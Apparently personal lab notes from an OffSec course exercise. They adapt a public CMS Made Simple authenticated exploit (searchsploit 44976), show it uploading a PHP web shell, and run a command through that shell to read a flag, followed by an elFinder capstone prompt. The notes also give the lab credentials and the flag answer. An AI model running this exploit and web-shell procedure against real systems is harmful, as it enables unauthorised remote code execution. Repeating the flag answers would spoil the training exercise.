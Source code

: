 ```bash
searchsploit -m 44976
```

- Adjust to fit
```python
# Line 12 - fix target IP
base_url = "http://192.168.198.52/cmsms/admin"
# Line 15 & 16 - Update creds
username = "offsec"
password = "lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ"
# Line 34 - Ignore SSL cert
response = requests.post(url, data=data, allow_redirects=False)  
# Line 55 - Ignore SSL cert
response = requests.post(url, data=data, files=txt, cookies=cookies)  
# Line 80 - Ignore SSL cert
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
```

IF error  is thrown:
`File "44976.py", line 25, in parse_csrf_token`
    `return location.split(csrf_param + "=")[1]`
Test csrf_param output by adding `print "[+] String being split: " + location` on Line *24*
Result will tell you which to use
`[+] String being split: http://192.168.198.52/cmsms/admin?_sk_=c865bd20b4d42fc0b84`

- Fix
```bash
# Line 18
csrf_param = "_sk_"
```

- Run & exploit
```bash
python2 44976.py
	[+] Authenticated successfully with the supplied credentials
	[+] String being split: http://192.168.198.52/cmsms/admin?_sk_=09032e5b656bb7393cd
	[*] Attempting to upload cmsmsrce.txt...
	[+] Successfully uploaded cmsmsrce.txt
	[*] Attempting to copy cmsmsrce.txt to shell.php...
	[+] File copied successfully
	[+] Exploit succeeded, shell can be found at: http://192.168.198.52/cmsms/uploads/shell.php

curl -k http://192.168.198.52/cmsms/uploads/shell.php?cmd=cat%20/home/flag.txt
	OS{579126dcf18692527ec0224ad0a4b9db}
```

> Answer:  OS{579126dcf18692527ec0224ad0a4b9db}





3. **Capstone Exercise**: The next VM, Module Exercise VM 2, is running a vulnerable version of the *elFinder* web application whose exploit is available . Once you've found the application base address through directory brute-forcing, modify the exploit to point to the correct application URL and get a shell. The flag can be found in the same folder. Note: Before running the exploit, remember to place a valid JPEG file on your local Kali machine and name it according to the exploit specifications.
